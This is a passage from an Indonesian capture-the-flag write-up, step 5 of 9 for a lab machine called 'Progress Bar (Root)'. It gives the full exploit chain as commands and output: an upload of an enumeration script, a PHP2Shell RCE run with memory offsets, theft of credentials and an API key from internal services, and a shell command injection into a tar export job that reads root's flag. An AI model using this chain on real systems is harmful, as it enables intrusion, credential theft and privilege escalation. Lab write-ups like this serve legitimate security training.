

# Progress Bar (Root) — Langkah exploit

[← Overview](14-progress-bar-root.md) · [Index](index.md)

> **Langkah 5/9 — Langkah exploit.** Script mengumpulkan:
>
> **Titik penting:** curl -sS -F 'PHP_SESSION_UPLOAD_PROGRESS=x' \ · curl -sS -i --max-time 5 http://127.0.0.1:3000$p · python3 exploit.py -u http://10.10.20.22/index.php \
>
> **Berikutnya:** [Output](14-progress-bar-root-06-output.md)

## 3.2 Langkah exploit

#### a) Upload payload enumerasi

```bash
curl -sS -F 'PHP_SESSION_UPLOAD_PROGRESS=x' \
  -F 'file=@script;filename=c' \
  http://10.10.20.22/upload.php
```

Script mengumpulkan:

```bash
id; hostname; uname -a
ls -la / /var/www /var/www/html /var/www/uploads /out /tmp
cat /etc/passwd; cat /etc/hosts
ps auxww
ss -ltnp
for p in / /health /api/config /api/health /api/status /api/services; do
  curl -sS -i --max-time 5 http://127.0.0.1:3000$p
done
for f in /opt/watchtower/app.py /opt/telephony/app.py /opt/automation/app.py; do
  echo "===== $f ====="; cat "$f"
done
```

Hasil ditulis ke `/out/recon.txt`, `/out/src.txt`, `/out/ucp.txt`,
`/out/root.txt`.

#### b) Jalankan PHP2Shell

```bash
cd /tmp/p2s
python3 exploit.py -u http://10.10.20.22/index.php \
  --offsets-file '' --no-auto-offsets --proof-file '' --fetch /out/p1 \
  -c 'sh</out/c' \
  --zif-offset 0x465370 --dtor-offset 0x65eb60 \
  --htdata-offset 0x690d8 --huge-mb 12 --retries 3 --timeout 90
```

Setelah RCE, script berjalan sebagai `www-data` dan menulis hasil ke `/out/`.
Ambil hasilnya:

```bash
curl -sS http://10.10.20.22/out/recon.txt
curl -sS http://10.10.20.22/out/src.txt
curl -sS http://10.10.20.22/out/ucp.txt
```

#### c) Ambil kredensial UCP

```bash
curl -sS http://127.0.0.1:3000/api/config
```

```json
{
  "telephony_user": "ucp-template",
  "telephony_pass": "Pr0gr3ssB4r_2026"
}
```

Login dan tambah widget:

```bash
rm -f /tmp/jar
curl -sS -c /tmp/jar -b /tmp/jar \
  -d 'username=ucp-template&password=Pr0gr3ssB4r_2026' \
  http://127.0.0.1:8080/ucp/login
curl -sS -c /tmp/jar -b /tmp/jar -d 'widget=voicemail' \
  http://127.0.0.1:8080/ucp/widgets
curl -sS -c /tmp/jar -b /tmp/jar http://127.0.0.1:8080/ucp/inbox
```

Inbox:

```html
<p>Rotation reminder: the automation worker key is
<code>PB_AUTO_7b3f9a1c4e0d2f6a</code>.
Keep it inside the loopback operations network.</p>
```

#### d) Command injection root

```bash
KEY=PB_AUTO_7b3f9a1c4e0d2f6a
curl -sS -X POST http://127.0.0.1:9000/jobs/export \
  -H "Authorization: Bearer $KEY" -H 'Content-Type: application/json' \
  --data-binary '{"report":"x; id; echo ---CAT---; cat /root/root.txt /home/deploy/user.txt 2>&1 #"}'
```

Command yang terbentuk:

```text
tar czf /var/automation/exports/x; id; echo ---CAT---; cat /root/root.txt /home/deploy/user.txt 2>&1 #.tgz /var/automation/data 2>&1
```

`#` mengabaikan suffix `.tgz ...`, sehingga shell hanya menjalankan bagian
sebelumnya.

### Evidence langkah ini



*Terminal evidence — `03-privesc.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`03-privesc.txt`](assets/progress-bar-root/03-privesc.txt)
